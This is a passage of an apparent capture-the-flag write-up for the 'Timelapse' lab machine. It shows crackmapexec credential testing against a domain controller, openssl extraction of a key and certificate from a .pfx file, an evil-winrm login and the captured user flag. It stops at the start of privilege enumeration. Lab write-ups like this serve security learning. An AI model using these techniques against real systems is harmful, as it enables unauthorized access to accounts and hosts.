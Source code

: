 Testing the new password against LDAP, SMB and WinRM we find our first set of working creds, over LDAP `legacy:thuglegacy`. 
```bash
➜  timelapse crackmapexec ldap 10.10.11.152 -u legacy -p thuglegacy                                                  
LDAP        10.10.11.152    389    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.152    389    DC01             [+] timelapse.htb\legacy:thuglegacy 
➜  timelapse crackmapexec smb 10.10.11.152 -u legacy -p thuglegacy
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [-] timelapse.htb\legacy:thuglegacy STATUS_ACCESS_DENIED 
➜  timelapse crackmapexec winrm 10.10.11.152 -u legacy -p thuglegacy
WINRM       10.10.11.152    5986   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:timelapse.htb)
WINRM       10.10.11.152    5986   DC01             [*] https://10.10.11.152:5986/wsman
WINRM       10.10.11.152    5986   DC01             [-] timelapse.htb\legacy:thuglegacy "HTTPConnectionPool(host='10.10.11.152', port=5985): Max retries exceeded with url: /wsman (Caused by ConnectTimeoutError(<urllib3.connection.HTTPConnection object at 0x7f4a3de153a0>, 'Connection to 10.10.11.152 timed out. (connect timeout=30)'))"
```

However, testing the ldap credentials against everything and anything results in errors.. so lets go back to the `.pfx` file. 
Reading about the `.pfx` we should be able to extract a `.key` and `.crt` file, which we can later use for evil-winrm login.
```bash
➜  Dev openssl pkcs12 -in legacyy_dev_auth.pfx  -nocerts -out priv.key
Enter Import Password: thuglegacy
Enter PEM pass phrase: thuglegacy
Verifying - Enter PEM pass phrase: thuglegacy
➜  Dev openssl pkcs12 -in legacyy_dev_auth.pfx  -clcerts -nokeys -out pfx.crt
Enter Import Password: thuglegacy

➜  Dev evil-winrm -i 10.10.11.152 -c pfx.crt -k priv.key -p -u -S 
Enter PEM pass phrase: thuglegacy
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Desktop> type user.txt
98f42c5d696089eac85401c445d1e2f9
```


--------------

# ROOT

### Step 1 
With manual information we see that the privileges are low and no interesting groups.
```powershell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> whoami /all
USER INFORMATION
----------------

User Name         SID
================= ============================================
timelapse\legacyy S-1-5-21-671920749-559770252-3318990721-1603


GROUP INFORMATION
-----------------

```